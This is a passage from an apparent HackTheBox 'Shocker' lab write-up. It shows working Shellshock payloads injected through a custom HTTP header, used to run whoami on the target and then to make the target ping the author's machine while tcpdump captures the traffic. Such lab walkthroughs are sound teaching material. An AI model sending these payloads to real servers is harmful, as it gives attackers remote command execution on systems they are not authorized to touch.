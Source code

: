 Our first test is to see who we're running as. We can add the custom header with `custom: () { :; };echo; /bin/bash -c "whoami"`.

![](/assets/htb-shocker/burp_whoami.png)

So we're running as a user called `shelly`. Let's see if we can do a more complex RCE, and reach our own macihne with a ping test.

### Testing for connectivity

> Be sure to capture the pings with `tcpdump -i tun0 icmp`

`custom: () { :; };echo; /bin/ping -c 5 10.10.14.4` 

<a href="/assets/htb-shocker/ping_test.png"><img src="/assets/htb-shocker/ping_test.png" width="95%"></a>

![](/assets/htb-shocker/ping_test_tcpdump.png)
